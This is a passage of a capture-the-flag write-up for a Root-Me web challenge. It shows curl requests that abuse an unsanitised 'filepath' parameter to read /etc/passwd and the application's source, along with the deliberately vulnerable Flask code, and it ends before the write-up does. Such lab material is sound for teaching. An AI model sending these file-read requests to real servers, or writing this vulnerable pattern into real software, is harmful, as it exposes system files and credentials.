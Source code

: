# TraineeTrainee

## Challenge

>   Your trainee made a final commit on the last day of his course, and since then you've seen a huge influx of requests. Strangely, you can no longer connect to the server ... Can you analyse what's going on?
>
>   Author : `Elweth` 

- Category: Web
- Difficulty: Medium

## Deployment

- Docker compose

```bash
cd src; docker compose up
``` 

## Writeup

The application seems to deliberately allow users to upload a file to the filesystem.

As a result, this feature can be used to download :

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/?filepath=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

We don't know much about the application, just that it's a nginx server. By enumerating the server, we discover that the application sources are in /app/app.py

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/?filepath=/app/app.py'
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/')
def home():
    file = request.args.get('filepath')
    if file:
        return open(file).read()
    return render_template('index.html')

app.run(host="0.0.0.0", port=5000)
```
